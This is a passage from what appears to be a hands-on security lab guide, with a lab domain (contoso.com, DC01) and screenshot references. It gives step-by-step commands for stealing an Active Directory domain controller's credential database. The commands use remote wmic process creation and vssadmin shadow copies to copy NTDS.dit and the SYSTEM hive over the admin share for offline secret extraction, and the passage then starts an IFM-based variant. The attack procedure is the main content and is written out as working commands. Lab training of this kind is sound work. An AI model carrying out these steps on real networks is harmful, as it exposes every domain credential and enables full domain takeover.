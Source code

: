     📝 What is the full error message?

1. [] In the same prompt, run the following `wmic /node:DC01.contoso.com process call create "cmd /c vssadmin create shadow /for=C: 2>&1 > C:\output.txt"`
    You will see the following output:
    ![image](.\IMG\WMIC1.png)

    What you have done is asking the Volume Shadow Copy service of Windows to create a snapshot of the drive where the database lies. You can't touch the live file, it's in used. But you can you copy its snapshot version. Its "shadow" version.
    
    Let see where the shadow is...

1. [] Now run the following `type \\DC01.contoso.com\C$\output.txt` and note where the shadow copy of the C drive is located.
![image](.\IMG\Shadow1.png)

1. [] Still in the red prompt, run `wmic /node:DC01 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ 2>&1 > C:\output.txt"`. This will copy the shadow copy to the root level of the C drive.

1. [] Now run the following to check if the copy did work `type \\DC01.contoso.com\C$\output.txt`.

1. [] And finally, in the prompt, type the following `copy \\DC01.contoso.com\C$\ntds.dit C:\Users\Public`

    You now have a copy of the NTDS.dit database. Well, that's not enough. You will need the keys to decrypt the secrets... But eh, not that hard, they are stored on the same machine! There are warmly waiting for you in the SYSTEM hive. Let's get it too.

1. [] In the red prompt, run `wmic /node:DC01 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\SYSTEM.hive 2>&1 > C:\output.txt"`. 

1. [] And get it back locally by running `copy \\DC01.contoso.com\C$\SYSTEM.hive C:\Users\Public`

    Now you can use other tools to read those files and extract all the juicy keys they contain.
    
### Task 2 - Copy the database using IFM  [optional]

Note that what you've done with VSS is more of proof of concept than an practical way of doing this. When we copy a database in use from the snapshot, the database is not properly clean (neither is the SYSTEM hive).
A smarter way would be to invoke the IFM feature remotely and copy the output of the IFM. Well, let's do that then!
